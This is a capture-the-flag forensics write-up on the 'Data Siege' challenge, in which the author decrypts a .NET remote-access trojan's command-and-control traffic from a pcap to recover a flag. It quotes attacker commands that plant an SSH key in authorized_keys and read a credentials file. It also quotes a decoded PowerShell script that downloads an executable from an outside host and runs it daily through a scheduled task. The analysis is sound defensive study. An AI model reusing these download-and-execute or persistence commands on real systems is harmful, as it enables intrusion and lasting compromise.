





# Data Siege

> "It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels. We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone. Note: flag is splitted in three parts."
> 
> Files:
> - `forensics_data_siege.zip`

**Writeup by:** Hein Andre Grønnestad


- [Data Siege](#data-siege)
	- [Files](#files)
	- [Wireshark](#wireshark)
		- [Extracting The File](#extracting-the-file)
		- [Extracting Unknown Encrypted Data](#extracting-unknown-encrypted-data)
	- [Reverse Engineering The File In dnSpy](#reverse-engineering-the-file-in-dnspy)
	- [Decrypting The Data](#decrypting-the-data)
		- [Decrypted Data](#decrypted-data)
		- [Flag Part 1 \& 2](#flag-part-1--2)
	- [Powershell Command](#powershell-command)
	- [Flag](#flag)


## Files

We take a look at the provided files.

```bash
$ unzip forensics_data_siege.zip
Archive:  forensics_data_siege.zip
  inflating: capture.pcap

$ ll
total 80
-rw-r--r-- 1 hag hag 51296 Feb 29 13:06 capture.pcap
-rwxrwxrwx 1 hag hag 23700 Mar 13 20:57 forensics_data_siege.zip
-rw-r--r-- 1 hag hag   859 Mar 13 20:58 README.md
```

We have a `pcap`-file. Let's take a look at it.


## Wireshark

We can see a `powershell.exe` commmand:


We can also see a file being downloaded; `aQ4caZ.exe`:

Url: `http://10.10.10.21:8000/aQ4caZ.exe`




### Extracting The File

Let's extract and have a look:

```bash
$ file aQ4caZ.exe
aQ4caZ.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

It's a .NET executable. We should take a look at it in dnSpy.


### Extracting Unknown Encrypted Data

We find some data that looks like it's encrypted and might be data sent to and from the executable we found, which is probably malware.




## Reverse Engineering The File In dnSpy

We find the `Encrypt` and `Decrypt` methods. The program also contains the AES key and IV.






## Decrypting The Data

I wrote a C# script in LINQPad to decrypt the data. The script uses the code taken from the malware and decrypts the data we found in the pcap file.

Full script: [`packet_decoder.linq`](packet_decoder.linq)




### Decrypted Data

```
getinfo-0
infoback;0;10.10.10.22|SRV01|SRV01\svc01|Windows 10 Enterprise Evaluation|0.1.6.1
procview;
procview;svchost�2060;svchost�5316;ApplicationFrameHost�4920;csrss�388;svchost�1372;svchost�832;VBoxTray�2748;fontdrvhost�684;services�576;svchost�3528;lsass�584;svchost�6872;svchost�1552;spoolsv�1748;VBoxService�1156;svchost�760;conhost�4108;svchost�1152;dllhost�6864;svchost�2528;svchost�1936;Memory Compression�1428;RuntimeBroker�4692;svchost�4112;svchost�1932;svchost�748;smss�284;svchost�1140;svchost�6852;svchost�2320;MicrosoftEdge�5076;svchost�1332;svchost�740;svchost�3888;conhost�4896;dwm�340;java�6052;svchost�928;svchost�3488;YourPhone�1320;svchost�1516;dllhost�4204;SearchUI�4664;svchost�328;winlogon�524;SgrmBroker�6628;svchost�2096;svchost�1504;cmd�2488;svchost�1304;NisSrv�2336;MicrosoftEdgeSH�5636;svchost�1104;browser_broker�4592;svchost�1100;svchost�5284;explorer�4052;svchost�1164;svchost�2076;svchost�1680;aQ4caZ�7148;svchost�692;svchost�100;dumpcap�3516;MsMpEng�2260;RuntimeBroker�4820;svchost�1272;Microsoft.Photos�6392;svchost�3436;fontdrvhost�676;cmd�84;taskhostw�3628;RuntimeBroker�6188;RuntimeBroker�1384;java�7028;MicrosoftEdgeCP�5592;svchost�1256;svchost�3816;csrss�464;Registry�68;sihost�3416;SecurityHealthSystray�3156;svchost�6368;svchost�6564;wininit�456;ctfmon�3940;svchost�1636;SecurityHealthService�844;svchost�1040;svchost�2024;svchost�6980;svchost�1628;svchost�1824;svchost�1288;wlms�2216;RuntimeBroker�5564;svchost�5364;svchost�1620;svchost�2012;svchost�396;svchost�6540;RuntimeBroker�6780;WindowsInternal.ComposableShell.Experiences.TextInput.InputApp�2200;svchost�1604;svchost�788;svchost�1400;uhssvc�6824;SearchIndexer�5532;svchost�4940;svchost�3560;svchost�1392;svchost�1588;svchost�1784;wrapper�2176;svchost�2568;ShellExperienceHost�4536;System�4;conhost�2368;OneDrive�1184;svchost�1472;Idle�0;
cmd;C:\;hostname
cmd;C:\;srv01

cmd;C:\;whoami
cmd;C:\;srv01\svc01

cmd;C:\;echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwyPZCQyJ/s45lt+cRqPhJj5qrSqd8cvhUaDhwsAemRey2r7Ta+wLtkWZobVIFS4HGzRobAw9s3hmFaCKI8GvfgMsxDSmb0bZcAAkl7cMzhA1F418CLlghANAPFM6Aud7DlJZUtJnN2BiTqbrjPmBuTKeBxjtI0uRTXt4JvpDKx9aCMNEDKGcKVz0KX/hejjR/Xy0nJxHWKgudEz3je31cVow6kKqp3ZUxzZz9BQlxU5kRp4yhUUxo3Fbomo6IsmBydqQdB+LbHGURUFLYWlWEy+1otr6JBwpAfzwZOYVEfLypl3Sjg+S6Fd1cH6jBJp/mG2R2zqCKt3jaWH5SJz13
HTB{c0mmun1c4710n5 >> C:\Users\svc01\.ssh\authorized_keys
cmd;C:\;
cmd;C:\;dir C:\Users\svc01\Documents
cmd;C:\; Volume in drive C is Windows 10
 Volume Serial Number is B4A6-FEC6

 Directory of C:\Users\svc01\Documents

02/28/2024  07:13 AM    <DIR>          .
02/28/2024  07:13 AM    <DIR>          ..
02/28/2024  05:14 AM                76 credentials.txt
               1 File(s)             76 bytes
               2 Dir(s)  24,147,230,720 bytes free

cmd;C:\;type C:\Users\svc01\Documents\credentials.txt
cmd;C:\;Username: svc01
Password: Passw0rdCorp5421

2nd flag part: _h45_b33n_r357
lsdrives
lsdrives;C:\|
lsfiles
The input is not a valid Base-64 string as it contains a non-base 64 character, more than two padding characters, or an illegal character among the padding characters.
Cipher Text: uib3VErvtueXl08f8u4nfQ==24?uib3VErvtueXl08f8u4nfQ==
error
lsfiles;C:\;$Recycle.Bin�2|BGinfo�2|Boot�2|Documents and Settings�2|PerfLogs�2|Program Files�2|Program Files (x86)�2|ProgramData�2|Recovery�2|System Volume Information�2|temp�2|Users�2|Windows�2|bootmgr�1�408364|BOOTNXT�1�1|BOOTSECT.BAK�1�8192|bootTel.dat�1�80|pagefile.sys�1�738197504|swapfile.sys�1�268435456|
lsfiles;C:\;$Recycle.Bin�2|BGinfo�2|Boot�2|Documents and Settings�2|PerfLogs�2|Program Files�2|Program Files (x86)�2|ProgramData�2|Recovery�2|System Volume Information�2|temp�2|Users�2|Windows�2|bootmgr�1�408364|BOOTNXT�1�1|BOOTSECT.BAK�1�8192|bootTel.dat�1�80|pagefile.sys�1�738197504|swapfile.sys�1�268435456|
lsfiles-C:\temp\
lsfiles;C:\temp\;aQ4caZ.exe�1�29184|
upfile;C:\temp\4AcFrqA.ps1
The input is not a valid Base-64 string as it contains a non-base 64 character, more than two padding characters, or an illegal character among the padding characters.
Cipher Text: powershell.exe -encoded "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA="
AcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB
error
The input data is not a complete block.
Cipher Text: 1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8
error
upfilestop;
```


### Flag Part 1 & 2

The decrypted data is not perfect, seems like we have some issues with `base64` decoding, but we can still see two flag parts:

- `HTB{c0mmun1c4710n5 >> C:\Users\svc01\.ssh\authorized_keys`
- `2nd flag part: _h45_b33n_r357`

So:

- Flag part 1: `HTB{c0mmun1c4710n5_h45_b33n_r357`
- Flag part 2: `0n5_h45_b33n_r357`

I tried to clean up the `base64` issues, but it didn't yield the third flag part. Let's move forward and look at the powershell command from earlier.


## Powershell Command

```powershell
powershell.exe -encoded "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA="
```

Let's decode the `base64`:

```bash
$ echo "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA=" | base64 -d

(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet

# 3th flag part:

Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings
```

Success! 🚩

We have the third flag part: `0r3d_1n_7h3_h34dqu4r73r5`


## Flag

```
HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}
```
